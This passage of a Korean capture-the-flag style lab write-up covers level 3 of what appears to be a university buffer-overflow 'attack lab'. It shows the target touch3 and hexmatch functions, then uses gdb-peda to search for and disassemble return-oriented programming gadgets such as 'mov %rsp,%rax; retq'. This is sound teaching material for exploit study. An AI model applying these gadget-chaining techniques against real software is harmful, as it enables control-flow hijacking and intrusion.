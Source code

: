 

## Level 3

### 분석

#### Objective

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

`rtarget`의 `level3`에서는 `ctarget`의 `level3`을 반복하되, rop를 이용하여 이 문제를 해결해야 한다. 즉, 우리는 스택에 cookie 문자열을 삽입한 다음, 그 문자열의 주소를 `touch3`의 인자로 해서 함수를 호출해야 한다.



#### Collect Gadgets

##### Find Gadget to Get `rsp` 


```r
gdb-peda$ ropsearch "mov ?, ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, ?' in range: 0x401a53 - 0x401b6c
... (생략)
0x00401afa : (b'4889e0c3')	mov %rsp,%rax; retq
... (생략)
```

```r
gdb-peda$ disas 0x00401afa
Dump of assembler code for function setval_426:
   0x0000000000401af8 <+0>:	movl   $0xc3e08948,(%rdi)
   0x0000000000401afe <+6>:	retq   
End of assembler dump.
```
